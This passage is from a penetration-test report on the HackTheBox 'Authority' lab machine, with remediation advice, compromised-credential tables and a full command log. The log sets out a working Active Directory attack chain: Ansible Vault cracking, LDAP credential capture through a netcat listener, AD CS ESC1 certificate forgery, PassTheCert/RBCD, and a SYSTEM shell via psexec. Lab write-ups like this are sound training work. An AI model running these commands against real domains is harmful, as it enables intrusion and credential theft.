- **Finding #3 (LDAP Interception)** — Migrate all LDAP integrations in the environment to LDAPS with certificate validation. Disable plain LDAP (port 389) where operationally feasible.
- **Finding #4 (PWM Config Mode)** — Include a production readiness check (including PWM configuration mode status) in the organisation's application deployment process.

### Long Term

- Implement AD CS monitoring via the Event Log (Event IDs 4886, 4887, 4888 for certificate requests and issuance) and alert on any certificate issued with a UPN for a privileged account.
- Establish a recurring AD CS security assessment cadence to detect template misconfiguration drift.
- Implement network segmentation to limit which hosts can reach internal management interfaces such as PWM on port 8443.
- Enforce SMB signing and disable anonymous/guest SMB access across all domain-joined hosts via Group Policy.
- Adopt Active Directory tiering to ensure service accounts such as `svc_ldap` never hold or enable access to domain Administrator-level privileges.

---

## Lessons Learned / Skills Demonstrated

**Skill/Technique 1: Ansible Vault Hash Extraction and Offline Cracking.** Identified Ansible Vault-encrypted credential blocks in a playbook file recovered from an unauthenticated SMB share. Used `ansible2john.py` to convert each vault block to a hashcat-compatible format and cracked all three with hashcat mode 16900 in under 30 seconds. Demonstrated that Ansible Vault encryption provides no meaningful protection when the master password is weak and the vault files are accessible to an attacker.

**Skill/Technique 2: LDAP Credential Capture via PWM Configuration Abuse.** Identified that PWM was running in open configuration mode with an accessible configuration editor. Used the decrypted PWM admin password to log in, located the LDAP connection settings, redirected the LDAP server URL to an attacker-controlled netcat listener, and captured the `svc_ldap` service account credentials in cleartext by triggering the "Test LDAP Profile" function.

**Skill/Technique 3: AD CS ESC1 Certificate Template Exploitation.** Identified the `CorpVPN` template as ESC1-vulnerable using Certipy. Verified the prerequisite (MachineAccountQuota=10) with CrackMapExec, created an attacker-controlled machine account via LDAPS using `addcomputer.py`, and used Certipy to request a certificate impersonating `administrator@authority.htb` from the vulnerable template, demonstrating the full ESC1 exploitation workflow.

**Skill/Technique 4: PKINIT Limitation Bypass via PassTheCert and RBCD.** After the standard Certipy authentication path failed with `KDC_ERR_PADATA_TYPE_NOSUPP`, pivoted to the PassTheCert technique. Extracted the certificate and key from the PFX using OpenSSL, used `passthecert.py` to authenticate to LDAP as Administrator via the certificate and write RBCD delegation rights to the DC computer object, then used `impacket-getST` to generate an S4U2Proxy service ticket impersonating Administrator. Demonstrated a complete certificate-to-domain-compromise chain that bypasses PKINIT requirements.

---

## Appendix

### A. Finding Severity Definitions

| Rating       | Definition                                                                                     |
| ------------ | ---------------------------------------------------------------------------------------------- |
| **Critical** | Exploitation leads to full system/domain compromise with little to no effort or prerequisites. |
| **High**     | Exploitation causes substantial harm to confidentiality, integrity, or availability.           |
| **Medium**   | Exploitation has a moderate impact, or a high-impact issue with limited exposure.              |
| **Low**      | Exploitation causes minimal impact to operations.                                              |
| **Info**     | An observation or improvement opportunity; not itself a vulnerability.                         |

### B. Exploited Hosts

| Host                       | Method                                                              | Notes                                                           |
| -------------------------- | ------------------------------------------------------------------- | --------------------------------------------------------------- |
| `10.129.229.56:445`        | Unauthenticated SMB — Development share accessed                    | Ansible playbooks downloaded; vault hashes extracted            |
| `10.129.229.56:8443`       | PWM Config Editor LDAP redirect                                     | svc_ldap credentials captured in cleartext via netcat           |
| `10.129.229.56:5985`       | Credential-based WinRM (svc_ldap:lDaP_1n_th3_cle4r!)               | Domain foothold; user.txt captured                              |
| `AUTHORITY / 10.129.229.56`| ESC1 cert → PassTheCert RBCD → S4U → impacket-psexec               | SYSTEM shell; root.txt captured                                 |

### C. Compromised Users / Credentials

| Username / Account      | Method                                                                    | Notes                                                            |
| ----------------------- | ------------------------------------------------------------------------- | ---------------------------------------------------------------- |
| `svc_pwm` (PWM admin)   | Ansible Vault decrypted (master key cracked with hashcat mode 16900)      | Used to access PWM Configuration Editor                          |
| `svc_ldap`              | LDAP credential interception via PWM Configuration Editor redirect        | WinRM foothold; domain user used for ESC1 chain                  |
| `EVIL01$`               | Machine account added by attacker via addcomputer.py                      | Used to enroll in CorpVPN template and configure RBCD            |
| `Administrator`         | Kerberos S4U impersonation via RBCD + certificate (PassTheCert)           | Full domain compromise; root.txt captured                        |

### D. Command Reference Log

```bash
# ──────────────────────────────────────────────
# PHASE 1: RECONNAISSANCE & ENUMERATION
# ──────────────────────────────────────────────
sudo nmap -sC -sV -Pn 10.129.229.56
echo "10.129.229.56 authority.htb authority.htb.corp" | sudo tee -a /etc/hosts

# SMB null session enumeration
smbclient --no-pass -L //10.129.229.56
smbclient --no-pass //10.129.229.56/Development -N
dir

# Recursive download
smbclient //10.129.229.56/Development -N -c 'prompt OFF;recurse ON;mget *'

# Analyze downloaded content
cd Automation && tree -L 3
cd Ansible/PWM && tree
cat ./templates/tomcat-users.xml.j2
cat ./defaults/main.yml

# ──────────────────────────────────────────────
# PHASE 2: ANSIBLE VAULT CRACKING
# ──────────────────────────────────────────────
# Extract vault blocks → vault1, vault2, vault3 files
# Remove whitespace
sed -i 's/ //g' vault1 && sed -i 's/ //g' vault2 && sed -i 's/ //g' vault3

# Convert to hashcat format
python3 /usr/share/john/ansible2john.py vault1
python3 /usr/share/john/ansible2john.py vault2
python3 /usr/share/john/ansible2john.py vault3

# Crack vault master password
hashcat -m 16900 vault_hashes /usr/share/wordlists/rockyou.txt
# Master password: !@#$%^&*

# Decrypt vault contents
pip install ansible-vault
cat vault1 | ansible-vault decrypt  # → svc_pwm
cat vault2 | ansible-vault decrypt  # → pWm_@dm!N_!23
cat vault3 | ansible-vault decrypt  # → DevT3st@123

# ──────────────────────────────────────────────
# PHASE 3: PWM LDAP CREDENTIAL INTERCEPTION
# ──────────────────────────────────────────────
# Log into https://10.129.229.56:8443/pwm/private/config/editor
# using password: pWm_@dm!N_!23
# Navigate to LDAP → LDAP Directories → default → Connection
# Change LDAP URL from ldaps://authority.authority.htb:636
# to ldap://10.10.15.85:389

sudo nc -lvnp 389
# Click "Test LDAP Profile" → credentials received:
# svc_ldap / lDaP_1n_th3_cle4r!

# ──────────────────────────────────────────────
# PHASE 4: INITIAL FOOTHOLD
# ──────────────────────────────────────────────
evil-winrm -i 10.129.229.56 -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
whoami  # htb\svc_ldap
cd c:\users\svc_ldap\Desktop
type user.txt  # b7f48be53f73971676752115c4f1ce15

# ──────────────────────────────────────────────
# PHASE 5: AD CS ESC1 EXPLOITATION
# ──────────────────────────────────────────────
# Install certipy
python3 -m venv certipy-venv && source certipy-venv/bin/activate
pip install certipy-ad

certipy find -u svc_ldap@authority.htb -p 'lDaP_1n_th3_cle4r!' \
  -dc-ip 10.129.229.56 -vulnerable
# CorpVPN template → ESC1 (Domain Computers can enroll, EnrolleeSuppliesSubject)

crackmapexec ldap 10.129.229.56 -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -M maq
# MachineAccountQuota: 10

addcomputer.py 'authority.htb/svc_ldap' -method LDAPS -computer-name 'EVIL01' \
  -computer-pass 'Str0ng3st_P@ssw0rd!' -dc-ip 10.129.229.56

certipy req -username EVIL01$ -password 'Str0ng3st_P@ssw0rd!' -ca AUTHORITY-CA \
  -dc-ip 10.129.229.56 -template CorpVPN -upn administrator@authority.htb \
  -dns authority.htb -debug
# → administrator_authority.pfx

# ──────────────────────────────────────────────
# PHASE 6: PKINIT BYPASS & RBCD → SYSTEM
# ──────────────────────────────────────────────
sudo ntpdate 10.129.229.56

# certipy auth fails → KDC_ERR_PADATA_TYPE_NOSUPP → use PassTheCert

git clone https://github.com/AlmondOffSec/PassTheCert.git
cd PassTheCert && cp ../administrator_authority.pfx .

openssl pkcs12 -in administrator_authority.pfx -nocerts -out administrator.key
openssl pkcs12 -in administrator_authority.pfx -clcerts -nokeys -out administrator.crt

python3 ./Python/passthecert.py -dc-ip 10.129.229.56 -crt administrator.crt \
  -key administrator.key -domain authority.htb -port 636 \
  -action write_rbcd -delegate-to 'AUTHORITY$' -delegate-from 'EVIL01$'

impacket-getST -spn 'cifs/AUTHORITY.authority.htb' -impersonate Administrator \
  'authority.htb/EVIL01$:Str0ng3st_P@ssw0rd!'

export KRB5CCNAME='Administrator@cifs_AUTHORITY.authority.htb@AUTHORITY.HTB.ccache'
impacket-psexec -k -no-pass authority.htb/Administrator@AUTHORITY.authority.htb
whoami  # nt authority\system
type C:\Users\Administrator\Desktop\root.txt  # d0dab3ea03baa6f8a9b60f88378c4829
```

### E. References

- [MITRE ATT&CK: T1135 — Network Share Discovery](https://attack.mitre.org/techniques/T1135/)
- [MITRE ATT&CK: T1552.001 — Unsecured Credentials: Credentials In Files](https://attack.mitre.org/techniques/T1552/001/)
- [MITRE ATT&CK: T1557 — Adversary-in-the-Middle](https://attack.mitre.org/techniques/T1557/)
- [MITRE ATT&CK: T1649 — Steal or Forge Authentication Certificates](https://attack.mitre.org/techniques/T1649/)
- [MITRE ATT&CK: T1484 — Domain or Tenant Policy Modification](https://attack.mitre.org/techniques/T1484/)
- [MITRE ATT&CK: T1550.003 — Use Alternate Authentication Material: Pass the Ticket](https://attack.mitre.org/techniques/T1550/003/)
- [CWE-16: Configuration](https://cwe.mitre.org/data/definitions/16.html)
- [CWE-284: Improper Access Control](https://cwe.mitre.org/data/definitions/284.html)
- [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html)
- [CWE-732: Incorrect Permission Assignment for Critical Resource](https://cwe.mitre.org/data/definitions/732.html)
- [SpecterOps — Certified Pre-Owned (AD CS Attack Paths)](https://specterops.io/assets/resources/Certified_Pre-Owned.pdf)
- [Almond OffSec — Authenticating with Certificates when PKINIT is not Supported](https://offsec.almond.consulting/authenticating-with-certificates-when-pkinit-is-not-supported.html)
- [PWM Project — GitHub](https://github.com/pwm-project/pwm)
- [Official HackTheBox Authority Machine Page](https://app.hackthebox.com/machines/Authority)

> **Note on CVEs:** No CVEs apply to this assessment. All findings are Active Directory and application misconfigurations, insecure credential management practices, and over-permissive access control decisions rather than vulnerabilities in versioned software with public CVE assignments. Remediation is configuration- and policy-based.
